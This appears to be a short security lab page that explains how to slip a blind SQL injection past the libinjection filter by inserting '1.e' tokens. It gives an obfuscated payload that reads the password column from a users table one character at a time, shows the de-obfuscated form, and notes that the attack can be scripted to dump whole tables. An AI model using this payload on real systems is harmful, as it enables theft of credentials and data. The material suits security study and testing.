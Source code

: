 # SQL Syntax Lab

Here is the general syntax necessary to confuse libinjection. With this SQL syntax, we are targeting the field `password` from the table `users`. The function substring is used to extract one character at the time and comparing it to an ascii value (`70` in the example).


## Payload

=== ":octicons-check-circle-fill-16: Obfuscated query"

    With the `1.e` notation expression that are ignored by the DBMS.

    ```sql
    1.e(ascii 1.e(substring(1.e(select password from users limit 1 1.e,1 1.e) 1.e,1 1.e,1 1.e)1.e)1.e) = 70 or'1'='2
    ```

=== ":octicons-skip-16: Actual query"

    This is how the DBMS will interpret 

    ```sql
    (ascii (substring((select password from users limit 1,1) ,1 ,1 ))) = 70 or'1'='2
    ```

## Scripting

Once you have working request that is producing an oracle (binary response based on the matching content). It is possible to script an attack to extract the complete content of any database tables.

